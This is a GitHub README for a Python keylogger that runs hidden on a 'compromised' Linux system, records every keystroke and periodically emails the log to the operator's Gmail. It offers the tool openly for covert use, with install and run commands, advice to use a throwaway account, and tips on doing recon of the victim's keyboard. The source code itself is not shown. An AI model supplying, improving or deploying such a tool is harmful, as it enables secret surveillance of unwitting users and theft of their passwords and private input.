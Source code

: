 # Keylogger
Test keylogger, trash quality right now

## Description
Want a terrible keylogger? Look no further!

This keylogger runs in the background and copies all the keystrokes a user inputs. After an interval, it then emails these keystrokes to the gmail given.

The logger is heavily based on the logger written by [x4nth055](https://github.com/x4nth055). 

I added the ability to feed in an email address and password, rather than hardcode it in, the ability to feed in how long you want the script to report back to you, as well as an experimental attempt to report special chracter key strokes.

### Prerequisites

This logger has been built on a number of assumptions:
* You've can run sudo on a comprimised linux system
* You have access to Gmail, and have turned on 'less secure app access' in your security settings

You'll need to install the following pip3 modules, if you don't already have them:
```bash
pip3 install keyboard
pip3 install argparse
```
### Installation
```bash
wget https://github.com/Purp1eW0lf/Keylogger/logger.py
```
### Usage
This logger requires you to feed your gmail email and password. I would create a throwaway account for this. 

You can also optionally feed the script the length of time you want it to wait and send you an email of the keystrokes. The default waiting period is 60 seconds, should you chooe not to input length (the -l flag)

```bash
sudo python3 logger.py -e gmail@Address -p Password -l 120
```
#### Help Image
![Help Image](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/HELP.jpg)

#### Usage Image
![Usage image](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/Example%20Use.jpg)

#### Email Report Image
![Email report](https://github.com/Purp1eW0lf/Keylogger/blob/main/images/Logged%20Email.jpg)

### Known Issues
Sometimes the emails don't send at the regular interval, but will come in batch and you'll get a handful at once
* Fix: I'm not clever enough to figuire out why yet

The script tries to tranpose special characters by examining is the user presses the SHIFT key and a corresponding number. This is majorly flawed, however, as it is entirely keyboard dependent. It is therefore trash. The current script is based on a Macbook keyboard. 
* Fix: If you're able to do some recon on the user's keyboard, you can change the section mid-script and reassign the key values for better accuracy. 

### Contact

If you notice a way the script can be improved you're welcome to make requests and raise issues. 
You're also welcome to slide in my Twitter DMs and tell me how shit the logger is.
[@Purp1eW0lf](https://twitter.com/Purp1eW0lf)
